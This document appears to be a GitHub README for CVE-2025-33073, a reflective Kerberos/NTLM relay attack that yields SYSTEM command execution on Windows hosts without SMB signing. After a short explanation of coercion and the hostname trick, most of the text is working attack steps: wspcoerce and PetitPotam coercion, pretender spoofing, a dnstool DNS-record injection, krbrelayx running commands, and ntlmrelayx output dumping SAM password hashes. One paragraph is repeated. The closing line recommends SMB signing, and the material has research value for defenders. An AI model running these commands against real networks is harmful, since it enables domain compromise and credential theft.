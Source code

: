 ## CVE-2025-33073

An authenticated remote command execution as SYSTEM on any machine which does not enforce SMB signing.

<p align="center">
  <img src="img/ReflectiveKerberosRelayAttack.webp" />
</p>

Authentication Coercion: 

The attack begins with authentication coercion. This is a well-known technique that allows low-privileged accounts to connect a Windows host via DCERPC and coerce it to connect and authenticate to the attack system with its computer account. We have described the theory behind this technique as well as the currently available techniques in our previous blog post: The Ultimate Guide to Windows Coercion Techniques in 2025. It is very important to understand the limitations of the coercion techniques, because these limitation dictate which hosts end up being vulnerable for the Reflective Kerberos Relay Attack in practice.

Decoupling of Coercion Target and Service Principal Name: 

Coercing Kerberos authentication is not as easy as it sounds. If we coerce a connection to the attack system, Kerberos is only used when the attack system has its own Service Principle Name, and in this case, the ticket would be rejected if we relay it back. This is where the CredUnmarshalTargetInfo/CREDENTIAL_TARGET_INFORMATIONW trick comes into play, which was pioneered by James Forshaw from Google Project Zero. This allows us to register a hostname pointing to the attack system that causes Kerberos Tickets to be issued for an entirely different host. Using this technique, we are able to receive a Kerberos ticket intended for the same host it originated from.

Bypassing NTLM Prioritisation: 

Due to the aforementioned trick, Windows seems to think it is connecting to itself and in this case, NTLM is actually prioritised over Kerberos. Therefore, we needed to modify krbrelayx to advertise that it is not capable of NTLM at all to force Kerberos authentication. You can find the diff in our paper.

Methods:

```sh
wspcoerce 'lab.redteam/user1:KojbyRyibdinWom)@client1.lab.redteam' \
    file:////client11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA/path
```

```sh
sudo pretender -i eth1 --no-dhcp-dns --no-timestamps \
    --spoof '*1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA*'
```

```sh
krbrelayx.py --target smb://client1.lab.redteam -c whoami
```

##

PetitPotam coerces a SYSTEM service (lsass.exe) into authenticating to a controlled machine, therefore a machine account authentication is received. As the authentication originates from the same machine, the relay fails.

```sh
Help: -u <user> -p <password> -d <domain> <dc-ip> <target-ip>
PetitPotam.py -u tyr -p loki -d SHADOW.LOCAL 192.168.77.4 SERVER1.SHADOW.LOCAL
```

```sh
ntlmrelayx.py -t SHADOW.LOCAL -smb2support
```

PetitPotam coerces a SYSTEM service (lsass.exe) into authenticating to a controlled machine, therefore a machine account authentication is received. As the authentication originates from the same machine, the relay fails.

##

```sh
dnstool.py -u 'SHADOW.LOCAL\tyr' -p loki 192.168.77.10 -a add -r server11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.77.4
[-] Adding new record
[+] LDAP operation completed successfully
```

```sh
PetitPotam.py -u tyr -p loki -d SHADOW.LOCAL server11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SERVER1.SHADOW.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

```sh
ntlmrelayx.py -t SERVER1.SHADOW.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.77.12, attacking target smb://SERVER1.SHADOW.LOCAL
[*] Authenticating against smb://SERVER1.SHADOW.LOCAL as / SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x0c10b250470be78cbe1c92d1b7fe4e91
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:df3c08415194a27d27bb67dcbf6a6ebc:::
user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Done dumping SAM hashes for host: 192.168.56.12
```

CVE-2025-33073 is a good example on why enabling defense-in-depth mitigations such as SMB signing can prove extremely efficient, even against 0-days.
